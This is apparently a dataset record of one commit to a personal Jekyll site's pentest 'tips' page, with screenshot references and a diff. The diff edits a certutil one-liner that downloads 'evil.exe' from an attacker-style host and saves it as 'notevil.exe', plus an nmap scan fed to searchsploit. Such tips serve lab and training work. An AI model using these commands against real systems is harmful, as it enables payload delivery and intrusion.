

Before and after one commit to Mushi-mushi/mushi-mushi.github.io, a Jekyll site: the page built from tips/index.markdown, in a window 1280 px wide. Shown: the part 149-476 px from the top of the page, without its empty margins (102-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update index.markdown

```diff
--- a/tips/index.markdown
+++ b/tips/index.markdown
@@ -7,11 +7,11 @@ One Liners
 ==========
 Dowloading file via certutil
 {% highlight bash%}
-cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
+cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
 {% endhighlight %}
 Nmap scan ran through searchsploit
 {% highlight bash%}
-nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
+nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
 {% endhighlight %}
 List al started services
 {% highlight bash%}
```
